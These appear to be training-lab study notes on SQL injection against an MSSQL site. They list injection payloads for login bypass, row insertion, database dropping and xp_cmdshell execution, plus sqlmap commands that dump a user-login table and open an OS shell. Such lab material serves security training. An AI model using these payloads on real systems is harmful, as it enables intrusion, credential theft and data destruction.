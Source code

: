 # Lab 1 : Perform SQL Injection Attacks
---
### Task 1: Perform an SQL Injection Attack on an MSSQL Database
---
LAB Manual 4 - Page 1709

blah' or 1=1 --
blah';insert into login values('john','apple123'); --
blah;create database mydatabase; --
blah';DROP DATABASE mydatabase; --
blah';exec master.xp_cmdshell 'ping www.certifiedhacker.com -l 65000-t';

### Task 2 : Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap
---
LAB Manual 4 - Page 1720

![[Pasted image 20241027110631.png]]
`sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jWydNf8wro=; ui-tabs 1=0" --dbs`

`sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jWydNf8wro=; ui-tabs 1=0" -D moviescope --tables`

`sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jWydNf8wro=; ui-tabs 1=0" -D moviescope -T User_Login --dump`

`sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jWydNf8wro=; ui-tabs 1=0" --os-shell`


# Lab 2 : Detect SQL Injection Vulnerabilities using Various SQL Injection Detection Tools
---
### Task 1: Detect SQL Injection Vulnerabilities using DSSS
---
LAB Manual 4 - Page 1735

### Task 2: Detect SQL Injection Vulnerabilities using OWASP ZAP
---
**Parrot**
1. Open ZAP
2. Select Automated Zap option 
3. Enter url 
4. Attack

---

